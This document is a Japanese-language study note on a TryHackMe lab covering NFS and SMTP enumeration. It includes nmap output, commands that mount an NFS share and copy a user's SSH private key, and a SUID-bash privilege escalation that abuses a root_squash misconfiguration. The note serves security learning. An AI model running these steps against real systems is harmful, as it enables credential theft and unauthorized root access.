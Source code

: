 # 20210830

## THM

### Cyber Defense Introduction: Network Services 2

#### Understanding NFS

* NFSは2016年にlatest versionがリリースされて以降更新されていないとのこと

#### Enumerating NFS

* Enumerationの定義（[INFOSEC](https://resources.infosecinstitute.com/topic/what-is-enumeration/)）
* ツール
  * nfs-common
  * nmap
    * -A, -p-でよいとのことなので従う

```bash
nmap -A -p- $target_ip
# PORT      STATE SERVICE  VERSION
# 22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   2048 73:92:8e:04:de:40:fb:9c:90:f9:cf:42:70:c8:45:a7 (RSA)
# |   256 6d:63:d6:b8:0a:67:fd:86:f1:22:30:2b:2d:27:1e:ff (ECDSA)
# |_  256 bd:08:97:79:63:0f:80:7c:7f:e8:50:dc:59:cf:39:5e (ED25519)
# 111/tcp   open  rpcbind  2-4 (RPC #100000)
# | rpcinfo: 
# |   program version    port/proto  service
# |   100000  2,3,4        111/tcp   rpcbind
# |   100000  2,3,4        111/udp   rpcbind
# |   100000  3,4          111/tcp6  rpcbind
# |   100000  3,4          111/udp6  rpcbind
# |   100003  3           2049/udp   nfs
# |   100003  3           2049/udp6  nfs
# |   100003  3,4         2049/tcp   nfs
# |   100003  3,4         2049/tcp6  nfs
# |   100005  1,2,3      37927/udp   mountd
# |   100005  1,2,3      42195/tcp   mountd
# |   100005  1,2,3      48921/tcp6  mountd
# |   100005  1,2,3      51572/udp6  mountd
# |   100021  1,3,4      34541/tcp   nlockmgr
# |   100021  1,3,4      36044/udp   nlockmgr
# |   100021  1,3,4      43241/tcp6  nlockmgr
# |   100021  1,3,4      44305/udp6  nlockmgr
# |   100227  3           2049/tcp   nfs_acl
# |   100227  3           2049/tcp6  nfs_acl
# |   100227  3           2049/udp   nfs_acl
# |_  100227  3           2049/udp6  nfs_acl
# 2049/tcp  open  nfs_acl  3 (RPC #100227)
# 34541/tcp open  nlockmgr 1-4 (RPC #100021)
# 42195/tcp open  mountd   1-3 (RPC #100005)
# 51427/tcp open  mountd   1-3 (RPC #100005)
# 57611/tcp open  mountd   1-3 (RPC #100005)
```

* showmountコマンドを打つと共有されているディレクトリが見えるのでmountする
* あからさまにhomeディレクトリなのでユーザー名とssh鍵を取得

```bash
/usr/sbin/showmount -e $target_ip
mkdir /tmp/mount
sudo mount -t nfs $target_ip:$target_share /tmp/mount/ -nolock
ls /tmp/mount/
cp /tmp/mount/$target_user/.ssh/id_rsa $HOME/.ssh/id_rsa_target
chown 600 $HOME/.ssh/id_rsa_target
ssh -i $HOME/.ssh/id_rsa_target $target_user@$target_ip
# sudo ls /root
# [sudo] password for REMOTE_USER:
exit
```

* sudoはきかない

#### Exploiting NFS

* root_squashの設定不備を利用して権限昇格する
* root_squash
  * NFS共有に接続している人がNFSボリュームにルートアクセスできないようにする機能（デフォ）
  * 接続時、remoteのroot userには、localで権限が最も低いnfsnobodyが割り当てられる
* SUID
  * Set User ID
  * 誰がそのファイルを実行してもセットされたユーザーで実行される
  * rootがセットされていれば誰が実行してもroot権限で実行される
  * chmodで+sする（4000足した数値でchmodする）

```txt
    NFS Access ->
        Gain Low Privilege Shell ->
            Upload Bash Executable to the NFS share ->
                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
                    Login through SSH ->
                        Execute SUID Bit Bash Executable ->
                            ROOT ACCESS
```

* sampleのbashがroomに用意されているので、SUID bitを立てて共有に置く

```bash
wget https://github.com/xxxxx/bash $HOME/Downloads/
ls -l$HOME/Downloads/bash
cd /tmp/mount/$target_user
cp $HOME/Downloads/bash .
chmod +x bash
chmod +s bash
ls -l bash
# -rwsr-sr-x 1 root root 130339 Aug 30 12:07 bash
ssh -i $HOME/.ssh/id_rsa_target $target_user@$target_ip
```

```bash
./bash -p
# bash-4.4#
```

#### Enumerating SMTP

* serverのfingerprintを確認する
  * "smtp_version" module in MetaSploit
* ユーザーの取得
  * SMTPの検証プロセスを利用してユーザーを取得する
    * VRFY/EXPN
    * "smtp_enum" module in MetaSploit
    * Solarisであればより効果的なツールであるsmtp-user-enumが利用できる
